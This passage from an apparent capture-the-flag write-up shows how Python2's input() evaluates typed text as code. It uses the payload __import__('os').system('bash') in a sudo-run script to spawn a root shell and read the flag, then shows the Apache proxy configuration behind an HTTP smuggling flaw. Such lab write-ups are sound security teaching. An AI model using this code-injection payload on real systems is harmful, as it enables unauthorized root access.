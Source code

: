 However, with **Python2**, the behavior differs. `raw_input()` behaves like `input()` in Python3, but `input()` in Python2 **evaluates** the input as code instead of treating it as a string:

```console
$ python2
Python 2.7.18 (default, Aug  1 2022, 06:23:55)
[GCC 12.1.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.

>>> print(raw_input("input: "))
input: __import__("os").system("whoami")
__import__("os").system("whoami")

>>> print(input("input: "))
input: __import__("os").system("whoami")
kali
0
```

Running the script with `python2` and providing `__import__("os").system("bash")` at the `secret` prompt spawns a root shell, allowing us to read the root flag.

```console
hansolo@contrabando:~$ sudo /usr/bin/python2 /opt/generator/app.py
[sudo] password for hansolo:
Enter the desired length of the password: 1
Any words you want to add to the password? __import__("os").system("bash")
root@contrabando:/home/hansolo# id
uid=0(root) gid=0(root) groups=0(root)
root@contrabando:/home/hansolo# wc -c /root/root.txt
25 /root/root.txt
```

### Apache Configuration

Lastly, checking the Apache configuration inside the Docker container (the one used as a proxy), we can see the configuration that led to the **HTTP Smuggling** vulnerability:

```console
root@8783651820fd:/usr/local/apache2# cat /usr/local/apache2/conf/httpd.conf
...
<VirtualHost *:80>

    ServerName localhost
    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on
    RewriteRule "^/page/(.*)" "http://backend-server:8080/index.php?page=$1" [P]
    ProxyPassReverse "/page/" "http://backend-server:8080/"

</VirtualHost>
```

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
